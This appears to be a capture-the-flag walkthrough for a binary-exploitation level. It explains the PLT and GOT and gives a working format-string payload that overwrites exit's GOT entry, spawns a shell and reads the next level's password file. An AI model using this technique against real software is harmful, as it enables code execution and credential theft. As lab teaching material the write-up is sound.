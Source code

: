 # Level 5

## Initial Context

- One file: `level5`

## Solving the Challenge

Its the same challenge as `level4`, but we need to override value in the Global Offsets Table instead.

The program calls `printf` then directly `exit`, but by looking at the assembly, we can see that the `exit(n)` call is not direct.

```bash
$ gdb level5
...
(gdb) disass n
Dump of assembler code for function n:
...
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

The `@plt` (or **P**rocedure **L**inkage **T**able) at the end mean that the function is yet to be linked.
The resolved value is gonna be stored in its equivalent `@got.plt` (or **G**lobal **O**ffsets **T**able).

And the value for `exit` is:
```bash
(gdb) disass 'exit@plt'
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
#                               ^ read at memory
...
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
#          ^ bingo              ^ 'real' exit(n) address
...
```

If we try to find `exit@got.plt`'s value using `printf`, we can find it at the 4th position:

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%p " * 5' | ./level5
?? 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049838 0x25207025
#                              ^ bingo
```

By using the same method as the previous levels, we need to override `exit@got.plt`'s value to `o`'s, which is `0x080484a4` (or `134513828`):

```python
# address
"\x38\x98\x04\x08"

# padding to produce 134513828 characters
+ "%134513824x"

# write using %n, at the forth argument using $4
+ "%4$n"
```

Let's save it in a file and send it to the vulnerable program:

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"' > /tmp/exploit5
$ cat /tmp/exploit5 - | ./level5
whoami
level6
cat /home/user/level6/.pass
<flag>
```

## Inspirations

- https://reverseengineering.stackexchange.com/a/1993
